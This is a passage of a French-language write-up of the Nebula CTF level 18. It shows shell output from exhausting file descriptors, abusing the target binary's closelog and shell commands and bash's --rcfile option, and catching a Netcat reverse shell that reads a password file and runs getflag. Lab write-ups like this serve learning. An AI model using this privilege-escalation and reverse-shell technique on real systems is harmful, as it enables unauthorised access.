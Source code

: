 Il faut avoir recours à la commande `closelog` présente dans le binaire à cet effet : elle ferme le descripteur du fichier de log et ça permet alors aux librairies de se charger :

```shellsession
level18@nebula:~$ ./exhaust 1020
ready

/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'r'
/home/flag18/flag18: invalid option -- 'c'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
login aa
closelog
shell
/tmp/log: line 2: syntax error near unexpected token `('
/tmp/log: line 2: `logged in successfully (without password file)'
```

J'obtiens alors mon reverse shell :

```shellsession
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.97.
Ncat: Connection from 192.168.56.97:52243.
id
uid=981(flag18) gid=1019(level18) groups=981(flag18),1019(level18)
pwd
/home/level18
cd ../flag18
ls
flag18
toto
cat password
44226113-d394-4f46-9406-91888128e27a
getflag
You have successfully executed getflag on a target account
```

Pour y arriver il aura aussi fallu que je créé un script bash (contenant l'appel à Netcat) nommé `Starting` car l'option `--rcfile` qui est transférée à bash va essayer d'exécuter notre fichier de log.

Voir les solutions ici pour plus de détails :

[Cracking Nebula Part 2](https://unlogic.co.uk/posts/2014-07-02-cracking-nebula-part2/)

[Craftware](https://craftware.xyz/ctf/2012/07/21/Nebula-wargame-walkthrough.html)

[---=[ Kernel Inside ]=---: Nebula CTF - level18](https://www.kernelinside.com/2018/07/nebula-ctf-level18.html)
